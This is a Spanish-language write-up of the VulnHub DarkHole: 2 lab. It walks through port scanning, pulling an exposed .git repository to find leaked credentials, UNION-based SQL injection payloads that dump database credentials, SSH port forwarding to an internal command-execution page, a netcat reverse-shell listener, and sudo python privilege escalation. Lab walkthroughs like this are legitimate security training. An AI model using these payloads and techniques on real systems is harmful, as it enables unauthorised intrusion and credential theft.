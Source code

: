 # VulnHub - DarkHole: 2 Writeup

## Primer paso: Escaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.130: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (ssh y una página web)

Realizamos u n escaneo más profundo con:

```bash
nmap -A -v -n 192.168.226.130
```

![Consola](img/3.png)

Y obtenemos que existe un directorio .git accesible a través del puerto 80

## Segundo paso: Encontrar la vulnerabilidad web

Accedemos a su página web y vemos que en este caso no tiene disponible una pestaña para registrarnos:

![Consola](img/4.png)

Sin ambargo, este panel no es vulnerable a SQl injection.

Esta página tiene un directorio .git. Nos lo descargamos con wget para ver los cambios y su código.

```bash
wget -r http://192.168.226.130/.git/
```

Para ver los cambios usaremos:

```bash
git log --oneline
```

![Consola](img/5.png)

Vemos que en el commit anterior (a4d900a), en login.php estaban las credenciales por defecto. Vamos a ver los cambios de ese commit:

```bash
git show a4d9
```

![Consola](img/6.png)

La línea importante es la siguiente:

```php
if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
```

Esta línea se añadió en este commit, pero se eliminó en el siguiente, probamos sus credenciales para acceder. Nos llevará a un panel de control donde podremos ver el usuario:

![Panel de control](img/7.png)

De nuevo, se envía por parámetro el id (?id=1). En este caso, al cambiar el id a 2 se nos mostrará la plantilla que carga los datos. Esto es importante.

## Tercer paso: Explotar SQL Injection
Interceptamos la carga del usuario 1 y la enviamos al repetidor:

![Repeater de BurpSuite](img/8.png)

Al modificar los campos del submit no funcionará, pero se puede modificar la petición GEt para introducir SQL tras el id.
Gracias a ello, ahora sabemos que la tabla que está consultando la base de datos tiene 6 columnas:

![Repeater de BurpSuite](img/9.png)

La columna 1 es el id de la fila, pero la columna 4 no la usa la plantilla. Aun así vamos a hacer un mapa de la base de datos cambiando un número por una función:
Es muy importante revisar varias veces los datos y codificarlos a URL una sola vez.

- database() Nos dará el nombre de la base de datos. darkhole_2
- union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--+- Muestra todas las bases de datos. mysql,information_schema,performance_schema,sys,darkhole_2
En este caso sólo nos interesa la base de datos darkhole_2
- '+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- Muestra las tablas de la base de datos darkhole_2. ssh,user
Los datos de la tabla ssh pueden ser interesantes.
- '+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- para ver el nombre de las columas. id pass user
La columna id no nos interesa, tenemos que extraer los datos de user y pass.
- '+union+select+1,group_concat('usuario:+',user,'pass:+',pass),3,4,5,6+from+ssh--+- Extrae el usuario y la contraseña del id 1 de la tabla ssh.

![Repeater de BurpSuite](img/10.png)

Hay que tener especial cuidado con las comillas, en el último caso el nombre de la tabla no lleva comillas, pero en el resto sí. Esto depende si va detrás de un from o de un = (%3d encodeado a URL).

Ya tenemos entonces el usuario y la contraseña para conectarnos por ssh: jehad y fool.

## Cuarto paso: Escalar privilegios con ssh
Nos conectamos por ssh a través del terminal con el siguiente comando:

```bash
ssh jehad@192.168.226.130
```

Al haber enterado con un usuario distinto a www-data, podemos ver su historial de comandos:

```bash
cat .bash_history | less
```

![Histórico de comandos](img/11.png)

Al parecer, hay levantado en el puerto 9999 un servidor web levantado. Este puerto no fue detectado con netcat porque no es accesible desde el exterior.

Podemos hacer un port forwarding desde nuestra consola con ssh:

```bash
ssh jehad@192.168.226.130 -L 9999:localhost:9999
```
Ahora, accediendo a http://127.0.0.1:9999/ veremos que acepta el parámetro cmd para ejecutar comandos.

![Página web](img/12.png)

El usuario que corre el servicio es losy, podría ser interesante acceder a este. Para ello creamos una web shell.

Abrimos otra consola y escuchamos con netcat:

```bash
nc -lvnp 8888
```

Y entramos en la página [https://www.revshells.com/](RevShells) para generar la consola.

En este caso, funcionó la siguiente configuración:

![Reverse shell](img/13.png)

En la carpeta /home/losy encontramos la primera flag:


![Reverse shell](img/14.png)

De nuevo, viendo el histórico de comandos, encontramos una contraseña:

```bash
cat .bash_history | less
```

![Password](img/15.png)

Ahora que tenemos la contraseña de losy, vamos a consultar qué podemos ejecutar como root:

```bash
sudo -l
```
![Consola](img/16.png)

Podemos ejecutar python. Con él podemos darnos acceso a la consola de root. Creamos un archivo con el siguiente contenido o lo ponemos en el interprete de python:

```python
import pty;
pty.spawn("/bin/bash")
```

![Consola](img/17.png)

Con esto podemos acceder a la flag:

![Consola](img/18.png)
